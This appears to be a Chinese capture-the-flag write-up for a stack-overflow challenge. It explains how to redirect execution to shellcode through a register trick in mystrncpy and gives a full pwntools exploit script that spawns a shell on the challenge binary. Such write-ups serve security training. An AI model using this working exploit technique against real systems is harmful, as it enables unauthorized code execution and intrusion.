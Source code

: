 ***我从来不觉得栈溢出开心过***

因为树神觉得太简单了，所以给树神出的补充题：

![NSSIMAGE](BestiCTF S1 Week21.assets/d325d7dfd1.jpg)

所以，你知道为什么乘客未登机时其行李也不能上飞机吗？

#### 解题思路

本题与上题基本相似，差异如下：

1. 堆不可执行，而 strncpy 函数返回的 a1 为堆上的地址
2. strncpy 的调用有差异
3. 可溢出的长度增加了 8 字节

本题使用 pwndbg 进行调试，查看 _readline 函数返回时寄存器状况：

```python
gdb.attach(p, "b *0x401226")
```

![image-20250126183401130](BestiCTF S1 Week21.assets/image-20250126183401130.png)

可以看出，此时 rax，rcx 都指向我们的 shellcode，但是 rax 指向的是堆，rcx 指向的是栈。不幸的是，程序中`call rax`有很多，`call rcx`却根本没有。那我们就要想办法把 rax 也变成 rcx 的值。

不难注意到 mystrncpy 函数中，有一处同时对 rax 和 rcx 的处理：

![image-20250126183831986](BestiCTF S1 Week21.assets/image-20250126183831986.png)

基本执行流程为：rax 的值为 复制源地址，rcx 的值为 复制目标地址，call 后返回得到的 rax 为 rcx 的值，这就是我们想要的。

所以我们只需要再调用一次 mystrncpy 函数，再跳转到 `call rax` 即可。

#### EXP

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
context.terminal = ['cmd.exe', '/c', 'wt.exe', '-w', '0', '--title', 'gdb', 'bash', '-c']

# p = remote("127.0.0.1", 9999)
p = process("./attachment")
elf = ELF("./attachment")
# gdb.attach(p, "b *0x401226")

target_address = 0x4012E3

# 64位
context(arch="amd64",os="linux")
stack_len = 0x100 + 0x8

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(stack_len , b"\xff") + p64(0x4011A6) + p64(target_address)

#input()

p.send(payload)

p.interactive()
```
